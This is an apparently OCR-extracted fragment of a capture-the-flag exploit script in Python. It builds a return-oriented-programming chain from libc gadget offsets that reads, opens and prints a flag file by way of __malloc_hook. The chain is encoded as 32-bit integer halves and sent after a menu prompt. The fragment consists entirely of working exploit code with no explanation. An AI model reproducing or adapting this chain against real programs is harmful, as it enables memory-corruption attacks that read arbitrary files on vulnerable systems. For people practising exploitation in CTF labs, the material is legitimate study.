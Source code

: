 ```plain


    p_di=libc_base+0x0000000000023b6a
    p_si=libc_base+0x000000000002601f
    p_dx_12=libc_base+0x0000000000119431

    read_=libc_base+libc.sym["read"]
    puts=libc_base+libc.sym["puts"]
    open_=libc_base+libc.sym["open"]

    malloc_hook=libc_base+libc.sym["__malloc_hook"]

    #read ./flag
    orw=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(0)+"\n"+str(0)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(read_& 0xffffffff)+"\n"
    orw+=str(read_>> 32)+"\n"

    #open ./flag
    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(0)+"\n"+str(0)+"\n"
    orw+=str(open_& 0xffffffff)+"\n"
    orw+=str(open_>> 32)+"\n"

    ##read flag
    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(3)+"\n"+str(0)+"\n"
    orw+=str(p_si& 0xffffffff)+"\n"
    orw+=str(p_si>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(p_dx_12& 0xffffffff)+"\n"
    orw+=str(p_dx_12>> 32)+"\n"
    orw+=str(100)+"\n"
    orw+=str(0)+"\n"
    orw+=str(100)+"\n"
    orw+=str(0)+"\n"
    orw+=str(read_& 0xffffffff)+"\n"
    orw+=str(read_>> 32)+"\n"

    orw+=str(p_di& 0xffffffff)+"\n"
    orw+=str(p_di>> 32)+"\n"
    orw+=str(malloc_hook& 0xffffffff)+"\n"
    orw+=str(malloc_hook>> 32)+"\n"
    orw+=str(puts& 0xffffffff)+"\n"
    orw+=str(puts>> 32)+"\n"

    payload="96\n"*0x42+"-\n"*4+orw


    pause()
    sla("hhh","2")
```